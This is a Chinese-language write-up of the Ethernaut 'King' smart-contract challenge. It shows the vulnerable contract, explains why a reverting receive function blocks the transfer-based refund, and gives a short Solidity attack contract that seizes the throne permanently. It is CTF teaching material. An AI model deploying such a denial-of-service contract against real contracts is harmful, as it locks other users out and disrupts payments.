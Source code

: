 # King

> 下面的合约表示了一个很简单的游戏: 任何一个发送了高于目前价格的人将成为新的国王. 在这个情况下, 上一个国王将会获得新的出价, 这样可以赚得一些以太币. 看起来像是庞氏骗局.
>
> 这么有趣的游戏, 你的目标是攻破他.
>
> 当你提交实例给关卡时, 关卡会重新申明王位. 你需要阻止他重获王位来通过这一关.



## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

## 攻击思路

合约账户在收到转账后，会自动执行receive函数或fallback函数（如果合约同时实现了receive和fallback函数，只会执行receive函数）。

合约中使用 transfer函数进行合约转账，transfer函数执行失败时，会回滚交易。而call函数进行转账时失败了只会返回false。

所以我们可以使用合约申请为king，然后在合约的receive函数中revert掉所有转账交易。这样就没有人可以替代我们成为新王。

## 攻击代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {

    function attack() public payable{
        payable(0x3783bCB8e31c6fB16ac2c40bBC26A618e5978A67).call{value:msg.value}("");
    }

    receive() external payable{
        revert();
    }
}
```

关于这次的情况, 参见: [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) 和 [King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html)